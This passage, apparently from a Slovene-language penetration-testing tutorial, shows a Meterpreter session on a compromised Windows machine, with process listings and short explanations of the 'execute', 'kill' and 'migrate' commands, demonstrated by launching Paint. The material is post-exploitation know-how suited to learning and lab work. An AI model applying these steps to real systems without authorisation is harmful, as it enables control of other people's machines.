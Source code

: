     652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

Sedaj lahko poženemo poljubni program z ukazom `execute` in ga ustavimo z ukazom `kill`. Naš program se ne zažene na zaslonu vendar v ozadju, saj ga ne zaganjamo kot trenutni uporabnik. Zato se moramo prestaviti v program, ki že teče, katerega lastnik je trenutni uporabnik z ukazom `migrate` in nato z ukazom `execute` lahko poženemo program na zaslonu.

    meterpreter > execute -f mspaint.exe
    Process 1456 created.
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e